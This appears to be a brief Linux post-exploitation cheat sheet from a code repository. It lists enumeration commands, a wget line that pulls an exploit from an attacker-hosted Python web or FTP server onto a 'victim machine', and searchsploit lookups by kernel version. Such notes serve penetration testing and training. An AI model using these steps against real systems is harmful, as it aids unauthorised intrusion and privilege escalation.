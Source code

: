 # Linux Post Exploitation


## Enumeration

    uname -a
       
    ps -aux 
   
## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
## Exploit

    searchsploit <linux kernel version>
   
    searchsploit <linux version>
   
   
